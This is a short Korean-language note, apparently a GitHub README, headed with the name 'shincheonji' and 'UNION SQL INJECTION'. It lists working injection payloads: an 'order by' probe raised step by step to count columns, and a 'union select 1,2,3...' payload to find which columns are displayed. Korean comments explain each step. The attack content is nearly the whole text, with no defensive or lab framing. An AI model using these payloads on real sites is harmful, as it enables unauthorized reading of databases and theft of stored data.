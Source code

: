 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
```
aa' order by 1 #1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다.
```
